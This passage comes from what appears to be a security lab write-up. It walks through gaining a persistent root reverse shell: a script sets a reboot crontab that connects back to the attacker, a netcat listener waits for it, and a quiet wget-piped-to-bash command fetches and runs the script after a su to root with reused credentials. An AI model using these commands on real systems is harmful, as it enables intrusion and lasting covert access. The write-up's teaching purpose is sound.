 * `SAFETYCOM`  is the command that spawns an interactive shell, redirecting stdin and stdout through a TCP connection to the attacker, thus creating a reverse shell.
* This command is both saved in the crontab and executed at the end of the script;
* The errors of the crontab are ignored to avoid leaving any obvious traces;
* The cronjob is executed at every reboot of the system, after waiting 200 seconds (for giving the system time to set up propely).

> [!NOTE]
>
> The cronjob will be executed with the privileges of the user that executes `innocent.sh`.

###### Server

On the attacker machine: the script is added to the root directory of Apache and then the attacker opens a listener with `netcat`. 

```bash
sudo cp innocent.sh /var/www/html
nc -lvnp 4444
```

This will allow the victime to download the script via HTTP.  When he will execute it, he will connect to the listener and the reverse shell will be obtained.

###### Client

From the victim terminal (to which the attacker has access to, thanks to RDP), the attacker:

* tries to authenticate as `root` with Richard's credentials for Privilege Escalation (they work!),
* downloads the script quietly and executes it.

```bash
su root
wget -qO- http://mornincatch.ph/innocent.sh | bash
```

The attacker has successfully obtained a remote shell with `root` privileges that's persists across reboots!

<img src="images/root.png" alt="Screenshot 2025-06-08 alle 15.40.13 " style="zoom:50%;" />
